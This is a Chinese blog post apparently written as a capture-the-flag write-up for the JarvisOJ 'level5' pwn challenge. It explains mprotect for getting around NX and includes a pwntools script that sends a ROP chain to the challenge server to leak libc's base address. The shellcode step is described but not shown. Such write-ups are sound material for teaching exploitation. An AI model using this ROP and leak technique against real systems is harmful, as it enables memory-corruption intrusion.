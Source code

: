 ```yaml
---
layout:     post
title:      level5
subtitle:    level5
date:       2018-11-8
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> level5

# level5

## 这是关于mprotect的应用

首先关于**mprotect函数**

```c
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot)
```

**mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。** 

![1541645784475](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541645784475.png)

可见打开了nx保护

所以应该是要用mprotect改data段到可执行，然后执行shellcode拿shell。 

程序执行后，vmmap查看data段的地址

![1541645937742](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541645937742.png)

看到地址为***0x600000-0x601000***

我们还是先找到write函数的地址，进而计算libc的偏移地址。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./level3_x64"
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
elf = context.binary

io = remote("pwn2.jarvisoj.com", 9884)
libc = ELF("./libc-2.19.so")

prdi = 0x00000000004006b3
pprsi = 0x00000000004006b1
leak = flat(cyclic(0x80 + 8), prdi, 1, pprsi, elf.got['write'], 0, elf.plt['write'], elf.sym['_start'])
io.sendafter("Input:\n", leak)
libc.address = u64(io.recvuntil("\x7f")[-6: ] + '\0\0') - libc.sym['write']
success("libc -> {:#x}".format(libc.address))
pause()
```